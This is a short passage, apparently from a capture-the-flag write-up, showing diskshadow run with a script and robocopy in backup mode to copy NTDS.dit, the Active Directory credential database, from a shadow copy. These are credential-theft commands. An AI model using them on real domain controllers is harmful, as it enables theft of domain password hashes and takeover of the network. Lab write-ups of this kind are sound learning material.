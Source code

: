 ```bash
diskshadow /s script.txt
```

![](Baby-Script.png)

Finally, copy the NTDS.dit to C:

```bash
robocopy /b E:\Windows\ntds . ntds.dit
```
